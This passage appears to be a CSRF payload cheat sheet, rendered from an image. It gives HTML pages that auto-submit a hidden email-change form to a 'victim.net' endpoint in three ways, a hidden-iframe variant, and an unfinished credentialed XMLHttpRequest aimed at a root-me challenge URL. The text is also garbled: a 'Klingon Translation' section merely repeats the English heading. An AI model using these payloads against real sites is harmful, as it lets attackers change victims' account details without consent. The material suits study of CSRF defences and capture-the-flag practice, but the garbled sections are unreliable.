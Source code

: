 To make a form POST request, the `POST` method is used in the HTML form element. The form data is then sent to the server as key-value pairs in the body of the request. The server can then process the data and perform the necessary actions based on the submitted form data.
```html
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form method="POST" action="https://victim.net/email/change-email" id="csrfform">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit(); //Way 3 to autosubmit
</script>
</body>
</html>
```
### Form POST request through iframe

#### English Translation:

#### Form POST request through iframe

---

#### Klingon Translation:

#### Form POST request through iframe

---
```html
<!--
The request is sent through the iframe withuot reloading the page
-->
<html>
<body>
<iframe style="display:none" name="csrfframe"></iframe>
<form method="POST" action="/change-email" id="csrfform" target="csrfframe">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### **Ajax POST request**
```html
<script>
var xh;
if (window.XMLHttpRequest)
{// code for IE7+, Firefox, Chrome, Opera, Safari
xh=new XMLHttpRequest();
}
else
{// code for IE6, IE5
xh=new ActiveXObject("Microsoft.XMLHTTP");
}
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
```